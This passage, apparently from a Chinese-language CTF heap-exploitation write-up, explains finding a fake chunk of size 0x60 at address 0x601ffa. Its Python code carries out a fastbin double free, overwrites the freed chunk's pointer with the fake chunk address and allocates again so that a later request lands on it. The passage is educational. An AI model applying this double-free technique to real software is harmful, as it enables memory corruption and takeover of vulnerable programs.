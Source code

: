 所以fake_chunk可以不用上面的那个，即我们自己找到了一个faku_chunk，大小为0x60。

在申请的时候需要再申请的大小是0x58

```python
fake_chunk2 = 0x601ffa

add(3,0x58)
add(4,0x58)

free(3)
free(4)
free(3)

add(5,0x58)
edit(5,0x8,p64(fake_chunk2))

```

![upload successful](/images/pasted-138.png)


再次add

```python
add(6,0x58)
add(7,0x58)
add(8,0x58)
```
